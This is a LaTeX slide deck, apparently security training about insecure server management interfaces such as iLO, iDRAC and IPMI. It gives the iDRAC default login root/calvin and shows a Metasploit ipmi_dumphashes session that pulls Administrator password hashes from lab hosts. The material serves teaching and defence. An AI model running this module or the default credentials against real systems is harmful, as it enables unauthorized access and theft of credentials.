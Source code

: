 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
The softwaren for this model is:\\
Firmware 1.20 rc340 Firmware 06/04/2009

\begin{list2}
\item At the time of testing in 2019 this was 10 year old software, probably full of security issues that will never be fixed
\end{list2}



In general we have lots of \emph{management interfaces}, only intended for administrators. We should do our best to keep them isolated on management VLANs and have a secure configuration.

Server hardware typically have KVM (Keyboard Video Mouse) interfaces:
\begin{list2}
\item Compaq/HP Integrated Lights-Out (ILO) Management
\item Dell Remote Access Controller (iDRAC) default user root/calvin
\item Generic servers like SuperMicro have Intelligent Platform Management Interface (IPMI)\\
\url{https://en.wikipedia.org/wiki/Intelligent_Platform_Management_Interface}
\end{list2}

Common problems found:
\begin{list2}
\item Default settings, default passwords -- often direct access to server administration
\item Not upgraded, firmware has known vulnerabilities
\end{list2}

I have seen this for many many years, and still see this in networks after 2020



Vulnerability IPMI RAKP Dump hash:
\begin{alltt}\footnotesize
Name Description
---- -----------
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 172.16.10.205:623 - IPMI - Hash found: Administrator:ef4...c956bf6c9a9618a771c
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > setg RHOSTS 172.16.10.200
RHOSTS => 172.16.10.200
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 172.16.10.200:623 - IPMI - Hash found: Administrator:1aa4314318a30600...585fa89609bd2a9
\end{alltt}
\end{document}
